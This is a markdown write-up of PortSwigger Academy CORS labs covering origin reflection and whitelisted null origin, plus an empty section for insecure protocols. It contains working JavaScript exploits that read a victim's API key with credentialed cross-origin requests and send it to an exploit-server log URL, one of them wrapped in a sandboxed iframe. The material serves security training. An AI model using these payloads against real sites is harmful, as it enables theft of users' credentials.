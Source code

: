 <!-- omit in toc -->
# CORS

<!-- omit in toc -->
## Table of Contents

- [CORS vulnerability with basic origin reflection](#cors-vulnerability-with-basic-origin-reflection)
- [CORS vulnerability with trusted null origin](#cors-vulnerability-with-trusted-null-origin)
- [CORS vulnerability with trusted insecure protocols](#cors-vulnerability-with-trusted-insecure-protocols)

## CORS vulnerability with basic origin reflection
Reference: https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack

<!-- omit in toc -->
### Quick Solution
An exploit can be crafted and delivered to the victim to get the ``apikey``. The solution uses the old ``XMLHttpRequest``. I used the ``fetch`` with the ``credentials: include`` header. Here is the full exploit:
```
<script>
const exploit = async () => {
    const labBaseUrl = <base_lab_url>;
    const details = '/accountDetails';
    const response = await fetch(`${labBaseUrl}${details}`, {credentials: 'include'});
    const data = await response.json();
    fetch(`/hacked?apikey=${data.apikey}`)
}

exploit()
</script>
```

<!-- omit in toc -->
### Solution
1. With your browser proxying through Burp Suite, check intercept is off then log in and access your account page.
2. Review the history and observe that your key is retrieved via an AJAX request to ``/accountDetails``, and the response contains the ``Access-Control-Allow-Credentials`` header suggesting that it may support CORS.
3. Send the request to Burp Repeater, and resubmit it with the added header: ``Origin: https://example.com``
4. Observe that the origin is reflected in the ``Access-Control-Allow-Origin`` header.
5. In your browser, go to the exploit server and enter the following HTML, replacing ``$url`` with your unique lab URL:
```
<script>
   var req = new XMLHttpRequest();
   req.onload = reqListener;
   req.open('get','$url/accountDetails',true);
   req.withCredentials = true;
   req.send();

   function reqListener() {
       location='/log?key='+this.responseText;
   };
</script>
```
6. Click "View exploit". Observe that the exploit works - you have landed on the log page and your API key is in the URL.
7. Go back to the exploit server and click "Deliver exploit to victim".
8. Click "Access log", retrieve and submit the victim's API key to complete the lab.

## CORS vulnerability with trusted null origin
Reference: https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack

<!-- omit in toc -->
### Quick Solution
In this case the ``null`` Origin value is **whitelisted**. Browsers might send the value ``null`` in the Origin header in various unusual situations, **Sandboxed cross-origin requests** is one of them. So we can reuse the previous exploit and wrap it inside a sandboxed iframe:
```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="
    <script>
        const exploit = async () => {
            const labBaseUrl = <base_lab_url>;
            const details = '/accountDetails';
            const response = await fetch(`${labBaseUrl}${details}`, {credentials: 'include'});
            const data = await response.json();
            fetch(`/hacked?apikey=${data.apikey}`)
        }

        exploit()
    </script>
"></iframe>
```

<!-- omit in toc -->
### Solution
1. With your browser proxying through Burp Suite, check intercept is off, log in to your account, and click "My account".
2. Review the history and observe that your key is retrieved via an AJAX request to ``/accountDetails``, and the response contains the ``Access-Control-Allow-Credentials`` header suggesting that it may support CORS.
3. Send the request to Burp Repeater, and resubmit it with the added header ``Origin: null.``
4. Observe that the "null" origin is reflected in the ``Access-Control-Allow-Origin`` header.
5. In your browser, go to the exploit server and enter the following HTML, replacing $url with the URL for your unique lab URL and ``$exploit-server-url`` with the exploit server URL
```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','$url/accountDetails',true);
  req.withCredentials = true;
  req.send();
  function reqListener() {
    location='$exploit-server-url/log?key='+encodeURIComponent(this.responseText);
  };
</script>"></iframe>
```
Notice the use of an iframe sandbox as this generates a null origin request.
6. Click "View exploit". Observe that the exploit works - you have landed on the log page and your API key is in the URL.
7. Go back to the exploit server and click "Deliver exploit to victim".
8. Click "Access log", retrieve and submit the victim's API key to complete the lab.

## CORS vulnerability with trusted insecure protocols
Reference: https://portswigger.net/web-security/cors/lab-breaking-https-attack

<!-- omit in toc -->
### Quick Solution

<!-- omit in toc -->
### Solution